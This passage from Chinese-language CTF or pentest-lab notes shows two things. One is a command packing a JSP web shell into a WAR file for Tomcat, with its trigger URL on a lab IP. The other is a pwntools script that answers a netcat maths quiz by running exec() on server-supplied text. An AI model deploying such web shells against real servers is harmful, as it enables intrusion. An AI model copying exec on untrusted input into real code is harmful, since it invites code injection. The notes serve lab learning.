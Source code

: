   打包命令为：

  ```bash
  jar -cf shell.war shell.jsp
  ```

  触发路径为

  ```http
  http://192.168.2.6:8080/shell/shell.jsp
  ```


---

- 对于简单脚本运行的交互过程中来实现自动化（python来实现）

  例子：

  ```bash
  └─# nc 192.168.2.8 1337                                       
    ____                        _____ _                
   / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
  | |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
  | |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
   \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                       
  
  Let's see how good you are with simple maths
  Answer my questions 1000 times and I'll give you your gift.
  (9, '+', 4)
  > 13
  (6, '+', 8)
  > 
  ```

  运行 1000 次后的 python 实现

  ```python
  from pwn import *
  conn = remote('192.168.2.8',1337)
  resp = conn.recvuntil(b'gift.\n')  # 接收到 gift. 为止
  print(resp.decode(),end='')        # 不知道接收的是哪里，就打印看看
  for i in range(1000):
      # recv
      resp = conn.recvuntil(b'> ')  # 接收到 > 为止
      print(resp.decode(),end='')   
      
      # answer
      data = resp.decode().split('\n')[0]  # 对于接收的字符串做分割
      exec(f"data = {data}")
      exec(f"data = {data[0]} {data[1]} {data[2]}") # 实现 数学操作 的逻辑
      data = str(data) + '\n'
      
      #send
      print(data,end='')
      conn.send(data.encode())
  
  conn.interactive()           # 继续交互
  conn.close()
  ```
